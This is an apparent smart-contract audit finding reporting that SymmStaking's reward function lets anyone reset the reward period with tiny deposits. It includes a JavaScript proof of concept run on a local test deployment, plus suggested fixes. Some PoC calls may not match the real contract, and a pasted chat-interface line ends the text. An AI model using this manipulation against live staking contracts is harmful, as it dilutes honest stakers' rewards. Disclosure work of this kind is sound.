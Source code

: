 Bitter Amethyst Parrot

Medium

# Attackers Can Extend Staking Periods Indefinitely

### Summary

The reward mechanism in SymmStaking exposes a critical time-manipulation vulnerability where attackers can artificially prolong reward distribution periods by making tactical micro-deposits. This manipulation drastically alters the expected reward timelines for all participants in the protocol, undermining the economic incentives of the staking system.

### Root Cause

The core issue resides in how SymmStaking handles reward period updates in [SymmStaking.sol:371-372](https://github.com/sherlock-audit/2025-03-symm-io-stacking/blob/main/token/contracts/staking/SymmStaking.sol#L366):
```solidity
state.lastUpdated = block.timestamp;
state.periodFinish = block.timestamp + state.duration;
```
This implementation universally resets the period finish timestamp whenever rewards are added—regardless of existing reward status. Unlike properly designed staking contracts that calculate proportional extensions or maintain fixed schedules, this implementation allows complete period resets with minimal capital requirements.

### Internal Pre-conditions

A sophisticated attacker would:

1. Wait until a significant reward period is well underway
2. Contribute a minimal acceptable reward amount (potentially fractions of the original reward)
3. Trigger a complete duration reset via notifyRewardAmount
4. Repeat this process strategically to maintain control over distribution timing

This differs fundamentally from legitimate reward additions as it specifically targets the duration extension rather than meaningfully increasing rewards.

### External Pre-conditions

none

### Attack Path

- An attacker adds rewards via `notifyRewardAmount`
- At least one active reward period must exist (block.timestamp < state.periodFinish)
- Minimal capital is required—just enough to make technically valid reward deposits

### Impact

This vulnerability creates several critical risks:

1. **Economic Dilution:** Rewards become severely time-diluted, reducing APY for all stakers
2. **Commitment Exploitation:** Stakers expecting rewards within a specific timeframe are forced into extended positions
3. **Protocol Trust Erosion:** Unpredictable reward schedules undermine confidence in the protocol's reliability
4. **Governance Attack Vector:** This mechanic could be weaponized during governance proposals to force continued staking

### PoC

```solidity
async function demonstrateTimeStretchingAttack() {
  // Environment setup
  const [protocolOwner, maliciousProvider, honestStaker] = await ethers.getSigners();
  const baseToken = await deployMockToken("BaseToken", "BASE");
  const rewardToken = await deployMockToken("RewardToken", "RWD");
  
  // Deploy staking contract
  const SymmStaking = await ethers.getContractFactory("SymmStaking");
  const stakingContract = await upgrades.deployProxy(SymmStaking, [protocolOwner.address, baseToken.address]);
  
  // Configure reward parameters
  await stakingContract.configureRewardToken(rewardToken.address, true);
  
  // Honest staker commits capital
  await baseToken.transfer(honestStaker.address, ethers.utils.parseEther("5000"));
  await baseToken.connect(honestStaker).approve(stakingContract.address, ethers.utils.parseEther("5000"));
  await stakingContract.connect(honestStaker).deposit(ethers.utils.parseEther("5000"), honestStaker.address);
  
  // Initial legitimate reward setup (30-day period)
  console.log("=== Initial Reward Distribution Setup ===");
  await rewardToken.transfer(protocolOwner.address, ethers.utils.parseEther("1000"));
  await rewardToken.connect(protocolOwner).approve(stakingContract.address, ethers.utils.parseEther("1000"));
  
  await stakingContract.connect(protocolOwner).notifyRewardAmount(
    [rewardToken.address], 
    [ethers.utils.parseEther("1000")]
  );
  
  const initialState = await stakingContract.rewardState(rewardToken.address);
  const initialEndDate = new Date(initialState.periodFinish * 1000);
  console.log(`Intended reward end date: ${initialEndDate}`);
  console.log(`Initial reward rate: ${ethers.utils.formatEther(initialState.rewardRate)} tokens/second`);
  
  // Time passes - 15 days into the 30-day period
  await ethers.provider.send("evm_increaseTime", [15 * 24 * 60 * 60]);
  await ethers.provider.send("evm_mine");
  
  // Attacker begins time-stretching campaign
  console.log("\n=== Time-Stretching Attack Begins ===");
  await rewardToken.transfer(maliciousProvider.address, ethers.utils.parseEther("10"));
  await rewardToken.connect(maliciousProvider).approve(stakingContract.address, ethers.utils.parseEther("10"));
  
  // First time-stretch with minimal capital
  await stakingContract.connect(maliciousProvider).notifyRewardAmount(
    [rewardToken.address], 
    [ethers.utils.parseEther("0.5")]
  );
  
  const stretchedState = await stakingContract.rewardState(rewardToken.address);
  const newEndDate = new Date(stretchedState.periodFinish * 1000);
  console.log(`New manipulated end date: ${newEndDate}`);
  console.log(`Days added to distribution: ${(stretchedState.periodFinish - initialState.periodFinish) / (24 * 60 * 60)}`);
  console.log(`New diluted reward rate: ${ethers.utils.formatEther(stretchedState.rewardRate)} tokens/second`);
  
  // Demonstrate systematic manipulation
  console.log("\n=== Systematic Time-Stretching Campaign ===");
  const iterations = 3;
  
  for (let i = 1; i <= iterations; i++) {
    // Attacker waits strategic intervals
    await ethers.provider.send("evm_increaseTime", [5 * 24 * 60 * 60]);
    await ethers.provider.send("evm_mine");
    
    // Minimal capital stretching
    await stakingContract.connect(maliciousProvider).notifyRewardAmount(
      [rewardToken.address], 
      [ethers.utils.parseEther("0.1")]
    );
    
    const currentState = await stakingContract.rewardState(rewardToken.address);
    console.log(`Stretch ${i}: New end date: ${new Date(currentState.periodFinish * 1000)}`);
    console.log(`Total time manipulation: +${(currentState.periodFinish - initialState.periodFinish) / (24 * 60 * 60)} days`);
  }
  
  // Calculate economic impact
  const finalState = await stakingContract.rewardState(rewardToken.address);
  const effectiveAPYReduction = (initialState.rewardRate / finalState.rewardRate) - 1;
  console.log(`\nEconomic impact: ${(effectiveAPYReduction * 100).toFixed(2)}% reduction in effective APY`);
}
```

### Mitigation

Implement one of the following reward mechanisms:

1. Fixed-Period Rewards:
```solidity
if (block.timestamp < state.periodFinish) {
  uint256 remaining = state.periodFinish - block.timestamp;
  state.rewardRate = (amount + (remaining * state.rewardRate)) / remaining;
  // periodFinish remains unchanged
} else {
  state.rewardRate = amount / state.duration;
  state.periodFinish = block.timestamp + state.duration;
}
state.lastUpdated = block.timestamp;
```
2. Proportional Duration Extension:
```solidity
if (block.timestamp < state.periodFinish) {
  uint256 remaining = state.periodFinish - block.timestamp;
  uint256 leftover = remaining * state.rewardRate;
  state.rewardRate = (amount + leftover) / state.duration;
} else {
  state.rewardRate = amount / state.duration;
  state.periodFinish = block.timestamp + state.duration;
}
state.lastUpdated = block.timestamp;
```
Either approach prevents artificial time manipulation while still allowing legitimate reward additions.RetryClaude does not have the ability to run the code it generates yet. Claude does not have internet access. Links provided may not be accurate or up to date.